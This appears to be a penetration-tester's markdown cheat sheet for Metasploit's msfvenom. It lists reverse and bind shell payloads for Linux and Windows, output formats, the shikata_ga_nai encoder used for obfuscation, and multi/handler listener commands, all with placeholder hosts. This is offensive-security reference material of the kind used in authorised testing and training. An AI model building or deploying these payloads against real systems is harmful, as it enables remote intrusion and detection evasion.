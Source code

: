 ```yaml
---
layout: default
title: MSFvenom
tags:
    - bind
    - metasploit
    - meterpreter
    - msfpayload
    - obfuscation
    - reverse
    - shell
---
```

# MSFvenom
## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> -f <format> -e <encoder>
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter (stageless)
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter (stageless)

linux/x64/shell/bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter (stageless)
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter (stageless)

windows/x64/shell/reverse_tcp             # Reverse shell
windows/x64/shell_reverse_tcp             # Reverse shell (stageless)
windows/x64/shell/bind_tcp                # Bind shell
windows/x64/shell_bind_tcp                # Bind shell (stageless)

windows/x64/powershell_bind_tcp           # Bind PowerShell (stageless)
windows/x64/powershell_reverse_tcp        # Reverse PowerShell (stageless)

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```